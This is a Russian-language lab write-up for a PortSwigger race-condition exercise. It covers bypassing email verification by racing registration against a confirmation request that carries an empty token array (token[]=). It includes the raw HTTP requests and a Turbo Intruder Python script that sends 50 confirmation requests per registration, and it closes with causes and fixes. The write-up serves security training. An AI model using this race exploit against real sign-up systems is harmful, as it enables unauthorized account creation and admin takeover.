обход проверки email при регистрации

уязвимости могут скрываться не только в бизнес-логике, но и в **микроскопической временной рассинхронизации** внутри

https://portswigger.net/web-security/race-conditions/lab-race-conditions-partial-construction
# Partial construction race conditions
----
задание:

нужно зарегаться так, чтобы зарегать аккаунт на произвольный чужим адресом email
при этом этот ак должен обладать правами администратора каким то образом нужно найти такой акк
и удалить юзера карлос

мой емайл 
#### wiener@exploit-0a25007b033bd3fb80a83463014b0077.exploit-server.net

-- -

вот первичный запрос на регистрацию



число запросов не ограничено по запросу выше

самое интересное: что на этом сайте возможна регистрация только через адреса заканчивающиеся на @ginandjuice.shop   иначе ошибка You must register with @ginandjuice.shop email


то есть это сайт только для сотрудников магазина
мне нужно наверно обойти условие регистрации через почты типа @ginandjuice.shop

также можно получать инфу : An account already exists with that username
я могу узнавать, какие юзеры уже есть в базе

например admin уже зареган



	забавно, что даже в таком виде получается отправить запрос на подтверждение аккаунта:
	где почта просто @ginandjuice.shop  и даже без пароля
```htttp
csrf=kf0O0rZFlgQQByn61wfwooxfnsydQ2vJ&username=qrf2rwef&email=%40ginandjuice.shop&password=
```

как вариант, можно попробовать в перемешку с данным запросом, добавить запросы с моим валидным обычным не корпоративным email
-отправил штук 20 запросов, валидный мой email с кусочком @ginandjuice.shop
но результата нет, мне на почту ничего не пришло.

еще важное наблюдение, если хоть раз отправить запрос на регистрацию - то это имя уже будет занято
поэтому для каждой атаки нужно менять ник

пробовал разные варинаты 
email=wiener@exploit-0a25007b033bd3fb80a83463014b0077.exploit-server.net%40ginandjuice.shop
и
email=wiener@exploit-0a25007b033bd3fb80a83463014b0077.exploit-server.net%23%40ginandjuice.shop&password=123
но безушпешно, всегда ошибка которая требует адрес @ginandjuice.shop


---
```

заметил, что в заголовках есть 
Referer: https://0a7f00030375d30580293516000400b5.web-security-academy.net/register

возможно получитьтся перенаправить на свой хост https://exploit-0a25007b033bd3fb80a83463014b0077.exploit-server.net/exploit

https://ljtvrbscclacfvhwsnbp9lora8on2p54x.oast.fun

через Referer реакции никакой нет
```

---

возможно, стоит пробовать еще варианты со вставкой моего норм email вместе с запросом @ginandjuice.shop
еще на сайте есть возможность добавлять в корзину товары (вне аккаунта)

---

пробую делать, отправку множества запросов сразу, но с разными никами
пробовал разными способами - но не пропускает невалидные email

------

пробовал несколь параметров передать в одном запросе
нет успеха

-----

тезнически возможно перебором найти email (уже нашел) который существует, и потом подбирать к нему пароль, но это же столько вариантов может быть.. бесчисленное

---

в лабе также есть мой личный сервер - страница сайта которая логи читает

---

можно попробовать использовать запросы на вход в систему и запросы на регистрацию, может чтото будет интересное

--
как варинт - запустить одновременно окно с авторизацией + добавить в него окно с регистрацией,
возможно этот процесс позволит обойти проверку на необходимый email

в обоих страницах есть скрытое поле (но этот тот же csrf что и в самом запросе)
```                            
input required type="hidden" name="csrf" 
value="kf0O0rZFlgQQByn61wfwooxfnsydQ2vJ"
```

пробовал редиректить через
**X-Host**, **X-Forwarded-Server**, **Forwarded** Origin, Host, Referer
нет успеха

---

короче, намучался я, подсмотрю немного решение!

я очень долго тупил, и подсмотрел полностью решение

и оказалось, что я не знал, что у меня в настройках HTTP history было выключено отображение 
файлов типа .js       (   js,gif,jpg,png,ico,css,woff,woff2,ttf,svg   )
теперь это для меня новый виток знаний, теперь  я буду видеть полноценную картину всех ответов на запросы



------

тут есть в ответе GET /resources/static/users.js HTTP/2 вот такой файл в котором указаны, в том числе, пути запросов, в том же числе и пост запрос:
form.action = '/confirm?' + action
   и 
const action = query.includes('token') ? query : "";



создам такой запрос
ответ заблокированно , тк токена нет



произвольный токен - ответ - некорректный токен, 
значит это валидный запрос!
а вот токен я могу генерировать и другим запросом



------
ЭТО ПРОСТОЙ ЗАПРОС, КОТОРЫЙ СФОРМИРОВАН БЛАГОДАРЯ ОТВЕТУ .js с "подсказкой"
ДАННЫЙ ЗАПРОС ВЫЗЫВАЕТ ПОДТВЕРЖДЕНИЕ РЕГИСТРАЦИИ ПОЛЬЗОВАТЕЛЯ
ПРИЧЕМ САМ ТОКЕН ПУСТОЙ [  ] 
```http
POST /confirm?token[]= HTTP/2
Host: 0a6000d904d98eb98102840300350035.web-security-academy.net
Content-Type: application/x-www-form-urlencoded 
Content-Length: 0


----- --------------- --------- ------- ----- ----- --- -- -

 `name[]` в query string или POST-данных создает массив
 `token[]=` без значения создаст массив с одним пустым элементом: `array("")`
```

ЗАПРОС РАБОЧИЙ



# 🟣 ГЛАВНЫЙ СМЫСЛ

нужно понять, как работает большинство серверов при регистрации юзера
если разбить процесс на миллисекунды тогда:

1) Сервер получает данные для регистрации (логин, пароль, email).
2) Сервер создает в базе данных "полуготовую" запись будущего пользователя. Поле для токена подтверждения (`token`) на этом моменте **пустое** (имеет значение `null` или эквивалентное). Сам токен будет позже отправлен юзеру на почт адресс.
3) Сервер генерирует уникальный криптографический токен и записывает его в это самое поле.
4) Сервер отправляет письмо с ссылкой, содержащей этот токен.
5) Далее сервер ждет от юзера подтверждение регистрации по данной ссылке.

#### ключевой смысл находится между 2 и 3 пунктами
здесь пользователь уже есть в базе данных (зареган без подтверждения пока что  и его поле где будет токен или код подтверждения - пустое пока)
но сам токен(код) еще не сгенерирован сервером и не записан в это поле.

то есть в данном промежутке - если успеть выполнить подтверждение регистрации юзера - то получиться подтвердить профиль! при этом , так как у юзера поле с кодом в базе еще пустое - то аккаунт можно подтвердить, соответственно, пустым токеном, как в запросе выше
```http
POST /confirm?token[]= HTTP/2
```

поэтому логическая цепочка должна быть следующией:

1) нужно отправить одновременно 2 запроса
2) один запрос - на регистрацию нового юзера
3) второй - на подтверждение аккаунта

и если слать запросы без задержек, параллельно  и одновременно , тогда есть шанс , что такое событие случиться, создаться ак и тут же на след милисек акк подтвердится пустым запросом на подтверждение.

но так как при каждом новом запросе происходит создание полуготовых профилей, 
то нужно в каждом новом запросе менять никнейм.

значит нужно в интрудере запустить процесс, который будет каждый раз обновлять никнейм и одновременно параллельно отправлять два запроса, и так для каждого ника.

либо можно вручную решить лабу используя встроенный функционал burp
и прописать сразу под стоню другую ников... и отправить запросы отновременно!
может повезет, и получится быстро получить результат.



но лучше всего создать скрипт, который сделать тот процесс, что я выше описал
здесь меняю в запросе только ник, пароль один и тот же

вот сам скрипт (я взял его из решения официального, он же есть среди базовый скриптов
race-single-packet-attack )



запуск, среди ответов начали появляться ответы с инфой об успешной регистрации пользователя!!



копирую ник, а пароль для всех один и тот же, его не менял 



подставил в форму входа на сайте и попал в аккаунт! доступна амин панель.. по услувию задачи, далее стер карлоса, лаба решена.



--------

интерпритация от ds
```text

Время: 0 мс  -> Отправлены ВСЕ запросы (1 регистрация + 50 подтверждений).

Время: ~1 мс -> Сервер начинает обрабатывать регистрацию (Шаг 1 -> Шаг 2).
                 Запись создана, поле `token` = null.
                 
Время: ~2 мс -> ОДИН из 50 запросов на подтверждение доходит до сервера.
                 Сервер ищет пользователя с `token = null` и НАХОДИТ его!
                 Учетная запись активирована.
                 
Время: ~100 мс -> Сервер завершает Шаг 3 (записывает настоящий токен), но уже поздно.

```

------

# почему сработало и как недопустить?

1) Неатомарность транзакции регистрации 
2) 
Создание пользователя и генерация токена должны быть **неразрывной транзакцией**
Создавать токен в самом начале операции или заранее.
Нужно блокировать работу с БД при регистрации для работы только с одним запросом одновременно.
Использовать проверенные, готовые решения/библиотеки (FB/openID/Auth2.0...)

2) Особенность обработки параметров в PHP  `token[]=`, PHP интерпретирует это как **массив с одним пустым элементом** (`array(0 => '')`)
3) разница скорости запросов регистрации и подтверждения

- `POST /confirm` — простой запрос: проверить токен в БД → обновить статус.
   
- `POST /register` — сложный запрос: валидация → запись в БД → генерация токена → отправка

пока один запрос регистрации происходит можно пропихнуть в него десятки запросов проверки подтверждения email


-------------
----------
---------


запрос для скрипта

```http
POST /register HTTP/2
Host: 0a6000d904d98eb98102840300350035.web-security-academy.net
Cookie: phpsessionid=lbkTHRoiOmM7jw78KVLihKX5Wlq09v8a
Content-Length: 122
Cache-Control: max-age=0
Sec-Ch-Ua: "Not(A:Brand";v="8", "Chromium";v="144"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a6000d904d98eb98102840300350035.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/144.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6000d904d98eb98102840300350035.web-security-academy.net/register
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=vYrV4YB5rnnXJ1uB6Y945o12SzSeh1Ar&username=%s&email=hacker1212@ginandjuice.shop&password=123453r
```
              
					 ↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓
                
```python
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1, # 1 соединением
                            engine=Engine.BURP2
                            )
    
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a6000d904d98eb98102840300350035.web-security-academy.net
Content-Type: application/x-www-form-urlencoded 
Content-Length: 0


'''
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'User100' + currentAttempt
    
        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)
        
        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)
        
        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)

def handleResponse(req, interesting):
    table.add(req)
```